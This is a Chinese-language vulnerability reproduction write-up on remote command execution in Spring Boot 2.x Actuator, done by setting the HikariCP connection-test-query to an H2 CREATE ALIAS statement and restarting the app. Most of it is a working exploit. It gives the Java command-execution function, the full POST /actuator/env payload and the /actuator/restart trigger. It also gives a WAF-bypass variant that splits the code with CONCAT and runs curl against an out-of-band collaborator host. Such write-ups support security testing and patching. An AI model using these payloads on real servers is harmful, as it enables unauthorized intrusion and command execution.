

Spring Boot Actuator hikari配置不当导致的远程命令执行漏洞
=========================================================

一、漏洞简介
------------

Spring Boot
2.x默认使用的HikariCP数据库连接池提供了一个可以RCE的变量。这个变量就是`spring.datasource.hikari.connection-test-query`。这个变量与HikariCP中的`connectionTestQuery`配置相匹配。根据文档，此配置定义的是在从池中给出一个连接之前被执行的query，它的作用是验证数据库连接是否处于活动状态。简言之，无论何时一个恶心的数据库连接被建立时，`spring.datasource.hikari.connection-test-query`的值将会被作为一个SQL语句执行。然后利用SQL语句中的用户自定义函数，进行RCE。

二、漏洞影响
------------

Spring Boot 2.x

三、复现过程
------------

漏洞环境

> https://github.com/ianxtianxt/springboot\_actuator

### H2 CREATE ALIAS 命令

H2数据库引擎是一个流行的java开发数据库，非常容易与Spring
Boot集成，仅仅需要如下的一个dependency。

    <dependency>
        <groupId>com.h2database</groupId>
        <artifactId>h2</artifactId>
        <scope>runtime</scope>
    </dependency>

在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE
ALIAS创建一个java函数然后调用它，示例如下:

    CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
    CALL GET_SYSTEM_PROPERTY('java.class.path');

仿照这个，创建命令执行的java函数可以如下:

    String shellexec(String cmd) throws java.io.IOException { 
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
        if (s.hasNext()) {
            return s.next();
        } throw new IllegalArgumentException(); 
    }

那么RCE所需的SQL语句即:

    CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
    CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');

与1.x类似，在端点`/actuator/env`通过POST方法进行环境变量的赋值。payload为

    POST /actuator/env HTTP/1.1

    content-type: application/json

    {"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS EXEC AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'; CALL EXEC('/Applications/Calculator.app/Contents/MacOS/Calculator');"}

执行RCE的SQL语句已经构建好，接下来就是触发一个新的数据库连接，通过向端点`/actuator/restart`发送POST请求，即可重启应用出发新的数据库连接。请求如下

    POST /actuator/restart HTTP/1.1

    content-type: application/json

    {}

命令执行的结果:

### 针对WAFs

在这点上，可能会遇到常见的WAF过滤器，特别是对exec的过滤。然而，像这样的一个payload可以很容易地使用多种字符串拼接技术来绕过。比如使用CONCAT或HEXTORAW命令。上面的payload可写成

    CREATE ALIAS EXEC AS CONCAT('String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new',' java.util.Scanner(Runtime.getRun','time().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }');
    CALL EXEC('curl  http://x.burpcollaborator.net');

### 有限的执行上下文的命令注入

`spring.datasource.hikari.connection-test-query`是用来验证连接到数据库的连接是否存活。如果语句失败，应用会相信数据库无法连接并不再返回其他的数据库查询。攻击者可利用此来获得一个blind
RCE。

参考链接
--------

> https://xz.aliyun.com/t/7480\#toc-3
